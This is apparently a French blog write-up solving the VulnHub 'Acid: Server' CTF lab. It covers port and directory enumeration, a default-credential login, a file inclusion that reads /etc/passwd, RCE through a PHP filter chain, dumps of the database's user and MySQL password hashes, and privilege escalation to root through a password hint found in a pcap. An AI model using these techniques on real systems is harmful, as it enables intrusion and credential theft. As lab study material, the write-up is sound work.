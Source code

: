 ```yaml
---
title: "Solution du CTF Acid: Server de VulnHub"
date: 2023-01-02 12:00:00
tags: [CTF,VulnHub]
---
```


[Server](https://vulnhub.com/series/acid,64/) est le premier CTF d'un duo proposé sur VulnHub sous la série *Acid*. Le CTF date du mois d'aout 2015.

```
Nmap scan report for 192.168.56.91
Host is up (0.00017s latency).
Not shown: 65534 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
33447/tcp open  http    Apache httpd 2.4.10 ((Ubuntu))
|_http-title: /Challenge
|_http-server-header: Apache/2.4.10 (Ubuntu)
```

On trouve un serveur HTTP sur un port non standard. La page d'index ne semble donner aucune information intéressante mais en regardant le code source on voit que le titre fait référence à un path :

```html
	<title>/Challenge</title>
```

Cela devient effectivement plus intéressant quand on se rend sur cette URL puisque l'on tombe sur une mire de login qui demande adresse email et mot de passe.

L'interface semble assez poussée graphiquement et techniquement avec l'utilisation d'une librairie javascript qui chiffre le mot de passe en sha512 pour qu'il ne transite pas en clair sur le réseau.

Les champt du formulaire ne semblent pas vulnérables à une injection SQL et comme je n'ai pas d'adresse email sous la main je m'oriente vers une énumération :

```
200       40l       80w     1333c http://192.168.56.91:33447/Challenge/index.php
200       12l       27w      309c http://192.168.56.91:33447/Challenge/error.php
200       40l       80w     1333c http://192.168.56.91:33447/Challenge/
302        0l        0w        0c http://192.168.56.91:33447/Challenge/include.php
200        3l        3w       17c http://192.168.56.91:33447/Challenge/.gitignore
200     2231l    12761w   811880c http://192.168.56.91:33447/Challenge/bg.jpg
200       36l      503w     2954c http://192.168.56.91:33447/Challenge/todo.txt
```

Le fichier texte est intéressant puisqu'on y retrouve une adresse email :

> TODO List
> =========
> 
> IMPORTANT: IF ANYONE WANTS TO START WORK ON ANY OF THESE THINGS, PLEASE LET ME KNOW (peredur@peredur.net) SO THAT I CAN KEEP TRACK ON WHO'S WORKING ON WHAT.
> 
> I'D HATE TO HAVE TO CHOOSE BETWEEN TWO COMPETING VERSIONS OF THE SAME THING.
> 
> --- snip ---

Une recherche sur Internet pour cette adresse email m'amène sur le projet [GitHub - peredurabefrog/phpSecureLogin: A secure login module for PHP](https://github.com/peredurabefrog/phpSecureLogin).

Ce qui m'intéresse se trouve à la fin du `README` :

> The code to create and populate the necessary tables is included in the 'secure_login.sql' file. It populates the members table with a single user with the following details:
> 
> Username : test_user Email : [test@example.com](mailto:test@example.com) Password : 6ZaxN2Vzm9NUJT2y

Si on saisit ces identifiants on est redirigé vers `protected_page.php` qui nous propose alors d'aller vers `include.php`.

Là un formulaire nous propose de saisir le chemin pour un fichier et si on saisit par exemple `/etc/passwd` on retrouve le contenu du fichier dans la page :

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
--- snip ---
whoopsie:x:109:118::/nonexistent:/bin/false
acid:x:1000:1000:acid,,,:/home/acid:/bin/bash
mysql:x:111:126:MySQL Server,,,:/nonexistent:/bin/false
saman:x:1001:1001:,,,:/home/saman:/bin/bash
```

Je suis passé directement à un chainage de filtres PHP pour obtenir un RCE de cette faille d'inclusion (voir [GitHub - synacktiv/php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator)).

Une fois un shell récupéré je récupère le mot de passe de la base de données (`mahek`) dans un fichier de configuration et je dump ce qui peut être utile :

```
mysql> select * from members;
+----+-----------+------------------------+----------------------------------------------------------------------------------------------------------------------------------+----------------------------------------------------------------------------------------------------------------------------------+
| id | username  | email                  | password                                                                                                                         | salt                                                                                                                             |
+----+-----------+------------------------+----------------------------------------------------------------------------------------------------------------------------------+----------------------------------------------------------------------------------------------------------------------------------+
|  1 | test_user | test@example.com       | 00807432eae173f652f2064bdca1b61b290b52d40e429a7d295d76a71084aa96c0233b82f1feac45529e0726559645acaed6f3ae58a286b9f075916ebf66cacc | f9aab579fc1b41ed0c44fe4ecdbfcdb4cb99b9023abb241a6db833288f4eea3c02f76e0d35204a8695077dcf81932aa59006423976224be0390395bae152d4ef |
|  2 | Acid      | acid@gmail.com         | 53b9bd4416ec581838c4bde217e09f1206b94cdb95475cddda862894f4dbbeec5ceacc2e116a64cb56d8384404738c5fd16478e0266962eeb3b61da1918d5931 | 8a93f1fa3259a90d9cfafcc1ef43dfc2d0a2d6cba0e8f2f9c23ae6b701364aa278bf5629585c3663ae3df5c7a3734ca6af4019d7ef897f45cb0acc056c3e735f |
|  3 | saman     | saman.j.l33t@gmail.com | c124191d7a267cb2b83b2c59a30b2e388b77f13955340015462bffc0d90cfa7b402ecb8e3fc82717f22b127c98a4afa9ed4f3661d824c6c57a1490f9963d9234 | be02c5499ba4fd559dc7809a7fae01d6f251e781dbdf5a7af2c7bca320006f1a5275d8020d5c539d116e54b1bf775018349c721151d9111ad1c3da8f6b9c9697 |
|  4 | Vivek     | vik.create@gmail.com   | fb8db054a75254633052d951002065109cd96fe990bf5a5d5bd1581d3578235a69224784b29870046d21d95567cdfe292221fbabce17201b23ca0fd5ee4fa20e | c72ccb8eb5ac065eca5341ff8ed296648b92bc99b511300a4525e8c17679ecce06e8038e582b539acf17008f9fd3a394d912f1158ef7f3d16d5f66ba32ca18bb |
+----+-----------+------------------------+----------------------------------------------------------------------------------------------------------------------------------+----------------------------------------------------------------------------------------------------------------------------------+
```

Idem pour les autres comptes SQL :

```
mysql> select User,Password from mysql.user;
+------------------+-------------------------------------------+
| User             | Password                                  |
+------------------+-------------------------------------------+
| root             | *C585694D9A2AB16831EAB1361DEC1908BE17F739 |
| root             | *C585694D9A2AB16831EAB1361DEC1908BE17F739 |
| root             | *C585694D9A2AB16831EAB1361DEC1908BE17F739 |
| acid             | *616B4539A8036DB2A22866D602041053E22D4D51 |
| debian-sys-maint | *97C926204D749AEFD0C330150D4CB3D7B5C57124 |
+------------------+-------------------------------------------+
```

Les hashs stockés dans la table members sont du `sha512` avec un salt comme l'indique la source du code utilisé :

```php
function login($email, $password, $mysqli) {
    // Using prepared statements means that SQL injection is not possible.
    if ($stmt = $mysqli->prepare("SELECT id, username, password, salt
                                  FROM members
                                  WHERE email = ? LIMIT 1")) {
        $stmt->bind_param('s', $email);  // Bind "$email" to parameter.
        $stmt->execute();    // Execute the prepared query.
        $stmt->store_result();

        // get variables from result.
        $stmt->bind_result($user_id, $username, $db_password, $salt);
        $stmt->fetch();

        // hash the password with the unique salt.
        $password = hash('sha512', $password . $salt);
```

J'ai tenté de casser ça avec `hashcat` sur `Penglab` sans succès.

Finalement j'ai trouvé un fichier intéressant en listant les fichiers de l'utilisateur `acid` (il a beaucoup de fichiers dont certains liés à vmware) :

```bash
www-data@acid:/var/www/html/Challenge$ find / -user acid 2> /dev/null  | grep -v vmware
/sbin/raw_vs_isi/hint.pcapng
/bin/pwn_me
/bin/pwn_me/chkrootkit.lsm
--- snip ---
```

On peut ouvrir le fichier pcapng avec `Wireshark` mais ici un simple `strings` suffira pour fouiller son contenu. Je trouve la phrase suivante :

> saman and now a days he's known by the alias of 1337hax0r

L'alias en question est accepté comme mot de passe qui nous mène à root :

```bash
www-data@acid:/var/www/html/Challenge$ su saman 
Password: 
saman@acid:/var/www/html/Challenge$ sudo -l
[sudo] password for saman: 
Matching Defaults entries for saman on acid:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User saman may run the following commands on acid:
    (ALL : ALL) ALL
saman@acid:/var/www/html/Challenge$ sudo su
  ____                            _         _       _   _                 
 / ___|___  _ __   __ _ _ __ __ _| |_ _   _| | __ _| |_(_) ___  _ __  ___ 
| |   / _ \| '_ \ / _` | '__/ _` | __| | | | |/ _` | __| |/ _ \| '_ \/ __|
| |__| (_) | | | | (_| | | | (_| | |_| |_| | | (_| | |_| | (_) | | | \__ \
 \____\___/|_| |_|\__, |_|  \__,_|\__|\__,_|_|\__,_|\__|_|\___/|_| |_|___/
                  |___/                                                   
root@acid:/var/www/html/Challenge# cd /root
root@acid:~# ls
flag.txt
root@acid:~# cat flag.txt 


Dear Hax0r,


You have successfully completed the challenge.

I  hope you like it.


FLAG NAME: "Acid@Makke@Hax0r"


Kind & Best Regards

-ACID
facebook: https://facebook.com/m.avinash143
```

*Publié le 2 janvier 2023*
